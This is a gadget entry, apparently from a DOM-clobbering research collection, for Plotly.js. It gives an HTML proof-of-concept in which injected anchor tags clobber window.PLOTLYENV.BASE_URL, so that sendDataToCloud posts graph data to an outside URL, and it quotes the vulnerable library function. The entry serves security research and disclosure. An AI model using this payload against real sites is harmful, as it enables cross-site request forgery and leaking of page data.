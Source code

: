 ```yaml
---
description: Plotly.js is a standalone Javascript data visualization library, and it also powers the Python and R modules named plotly in those respective ecosystems (referred to as [Plotly.py](https://plotly.com/python/) and [Plotly.R](https://plotly.com/r/)).
github: plotly/plotly.js
gadgets:
  Latest:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - name-attr
      - before-lib-load
    pocs:
      - description: The Plooty.js library uses the `window.PLOTLYENV.BASE_URL` value as an URL reference to [sendDataToCloud](https://github.com/plotly/plotly.js/blob/b5603685a8e8ea4ada6d97d4af3fc60ec470b3cb/src/plots/plots.js#L203) using a POST `<form>`. This can be used to perform a [Cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF) attack.
        code: |
          <!-- user input -->
          <a id="PLOTLYENV"></a>
          <a id="PLOTLYENV" name="BASE_URL" href="https://httpbin.org/anything?"></a>

          <div id="gd"></div>
          <script src="https://cdn.plot.ly/plotly-3.0.1.min.js"></script>
          <script>
              Plotly.newPlot("gd", /* JSON object */ {
                  "data": [{ "y": [1, 2, 3] }],
                  "layout": { "width": 600, "height": 400}
              })
              Plotly.Plots.sendDataToCloud(gd);
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/plotly/plotly.js/blob/021289c7607c3cebd49de016db26a51dbe1fb3b4/src/plots/plots.js#L204">https://github.com/plotly/plotly.js/blob/021289c7607c3cebd49de016db26a51dbe1fb3b4/src/plots/plots.js#L204</a>

      ```javascript
      plots.sendDataToCloud = function(gd) {
          var baseUrl = (window.PLOTLYENV || {}).BASE_URL || gd._context.plotlyServerURL;
          if(!baseUrl) return;

          gd.emit('plotly_beforeexport');

          var hiddenformDiv = d3.select(gd)
              .append('div')
              .attr('id', 'hiddenform')
              .style('display', 'none');

          var hiddenform = hiddenformDiv
              .append('form')
              .attr({
                  action: baseUrl + '/external',
                  method: 'post',
                  target: '_blank'
              });

          var hiddenformInput = hiddenform
              .append('input')
              .attr({
                  type: 'text',
                  name: 'data'
              });

          hiddenformInput.node().value = plots.graphJson(gd, false, 'keepdata');
          hiddenform.node().submit();
          hiddenformDiv.remove();

          gd.emit('plotly_afterexport');
          return false;
      };
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/plotly.js.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

